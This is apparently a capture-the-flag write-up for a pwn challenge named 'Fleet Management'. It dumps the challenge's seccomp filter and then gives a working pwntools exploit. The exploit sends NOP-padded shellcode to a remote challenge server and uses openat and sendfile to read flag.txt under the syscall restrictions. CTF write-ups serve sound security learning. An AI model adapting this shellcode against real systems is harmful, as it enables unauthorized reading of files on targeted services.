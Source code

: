 # Fleet Management

```
score: 300
solved: **
difficulty: easy
tags: pwn, shellcode
```

## Identify
Have `hidden option` as 9: Seccomp will be setuped and run a shellcode. Using `seccomp-tools` to dump:
```bash
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x06 0xffffffff  if (A != 0xffffffff) goto 0011
 0005: 0x15 0x04 0x00 0x0000000f  if (A == rt_sigreturn) goto 0010
 0006: 0x15 0x03 0x00 0x00000028  if (A == sendfile) goto 0010
 0007: 0x15 0x02 0x00 0x0000003c  if (A == exit) goto 0010
 0008: 0x15 0x01 0x00 0x000000e7  if (A == exit_group) goto 0010
 0009: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0011
 0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0011: 0x06 0x00 0x00 0x00000000  return KILL
```
It means only allow `openat` and `sendfile` syscalls.
## Exploit
We will write a shellcode flowing: 
```
tmp = openat(AT_FDCWD, "flag.txt", O_RDONLY)
sendfile(fd_output,tmp,0,size)
```
<mark>**Note:**</mark> Standard output is `1` but in server we have to brute-force from `4`.\
POC:
```python
from pwn import *
import time

s = '''
init-gef
b beta_feature
'''

context.binary = "./fleet_management"

def run():
    # p = process("./fleet_management")
    p = remote("157.245.40.139",32657)
    # gdb.attach(p, gdbscript=s)
    # time.sleep(2)

    p.sendafter(b"do? ", b"9\n")
    time.sleep(0.5)
    payload = b""
    shell = shellcraft.amd64
    sh = ""
    sh += "sub rsp, 0x10\n"
    sh += shell.pushstr(b"flag.txt")
    sh += shell.linux.syscall("SYS_openat", 0xFFFFFF9C, "rsp", 4)
    sh += '''push 0x20
    pop r10
    mov rsi, rax
    push 0x28
    pop rax
    push 5
    pop rdi
    xor rdx, rdx
    syscall\n'''
    print(sh)
    payload += asm(sh.rstrip())
    payload = payload.rjust(60,b"\x90")
    p.send(payload+b"\n")
    time.sleep(0.5)
    p.interactive()

def main():
    tmp = run()

if __name__ == "__main__":
    main()
```